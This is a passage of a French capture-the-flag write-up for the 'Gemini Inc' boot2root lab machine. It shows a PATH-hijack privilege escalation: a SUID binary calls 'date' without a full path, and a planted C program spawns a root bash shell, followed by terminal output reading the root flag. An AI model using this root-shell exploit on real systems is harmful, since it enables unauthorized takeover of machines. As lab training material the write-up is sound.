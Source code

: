 Un appel à strings suffira à voir que certains programmes (date, grep) ne sont pas appelés via leurs paths complet :  

```plain
/sbin/ifconfig | grep inet
/bin/netstat -tuln | grep 22
/bin/netstat -tuln | grep 80
date
displaying network information...    
displaying Apache listening port...    
displaying SSH listening port...    
displaying current date...
```

J'ai opté pour un ELF qui nous offre un shell root :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash -p");
  return 0;
}
```

Compile, exécute et profite :  

```plain
gemini1@geminiinc:/tmp$ gcc -o date date.c 
gemini1@geminiinc:/tmp$ PATH=.:$PATH /usr/bin/listinfo
displaying network information...            inet 192.168.2.3  netmask 255.255.255.0  broadcast 192.168.2.255
displaying network information...            inet6 fe80::a00:27ff:fe65:aaca  prefixlen 64  scopeid 0x20<link>
displaying network information...            inet 127.0.0.1  netmask 255.0.0.0
displaying network information...            inet6 ::1  prefixlen 128  scopeid 0x10<host>

displaying Apache listening port...    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN

displaying Apache listening port...    tcp6       0      0 :::22                   :::*                    LISTEN

displaying SSH listening port...    tcp6       0      0 :::80                   :::*                    LISTEN
root@geminiinc:/tmp# cp /root/flag.txt .
root@geminiinc:/tmp# chmod +r flag.txt
root@geminiinc:/tmp# exit
gemini1@geminiinc:/tmp$ cat flag.txt
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm

Congratulations on solving this boot2root machine!
Cheers!
         _.._..,_,_
        (          )
         ]~,"-.-~~[
       .=])' (;  ([
       | ]:: '    [
       '=]): .)  ([
         |:: '    |
          ~~----~~
https://twitter.com/sec_9emin1
```